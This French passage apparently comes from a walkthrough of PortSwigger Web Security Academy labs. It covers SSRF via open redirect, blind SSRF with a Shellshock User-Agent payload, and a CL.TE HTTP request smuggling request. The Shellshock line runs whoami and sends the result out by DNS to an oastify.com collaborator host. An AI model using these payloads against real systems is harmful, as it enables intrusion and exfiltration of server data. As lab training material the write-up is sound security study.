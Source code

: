 Sur la requête "**POST /product/stock**", en remplaçant le paramètre "**stockApi**" par le chemin de l'interface d'administration on retombe bien sur cette dernière, on peut donc exploiter l'open redirection pour supprimer Carlos facilement : 

    stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

### Blind SSRF with Shellshock exploitation (EXPERT)

La consigne donne quelques indications :

- Le backend récupère le header "Referer" des requêtes
- On doit récupérer le nom de l'utilisateur du serveur interne
- Le serveur interne est en 192.168.0.X sur le port 8080
- Il faut utiliser un payload de Shellshock

Installer l'extension "Collaborator Everywhere" et mettre le lab dans le scope de Burp pour que l'extension puisse interagir avec. 

Dès que l'on charge une page du lab, on a un pingback sur Collaborator, dans "All issues". Le User-Agent est reflété dans la requête HTTP qui arrive.

En reprenant une des requêtes et en modifiant le User-Agent avec un payload de Shellshock XXX : 

    () { :; }; /usr/bin/nslookup $(whoami).myobbbudt4uo4o1p9qwzomb8uz0qoqcf.oastify.com

Envoyer cette requête dans l'Intruder et remplacer le Referer par http://192.168.0.1:8080

Lancer l'attaque en faisant varier le dernier octet.


Dans notre Collaborator, on reçoit bien un call DNS avec le nom de l'utilisateur au début : 

    peter-ZiFbHm.myobbbudt4uo4o1p9qwzomb8uz0qoqcf.oastify.com.

### SSRF with whitelist-based input filter (EXPERT)

TO DO

## === HTTP request smuggling ===

Bien désactiver l'option **Update Content-Length** dans les requêtes HTTP pour toute cette série de labs.

### Confirming a CL.TE vulnerability via differential responses

Utiliser l'extension "HTTP Request Smuggler" ou envoyer deux fois la requête suivante : 

    POST / HTTP/1.1
    Host: 0adf00df039a12ba80d74ebf007700f0.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 35
    Transfer-Encoding: chunked

    0

    GET /404 HTTP/1.1
    X-Ignore: X
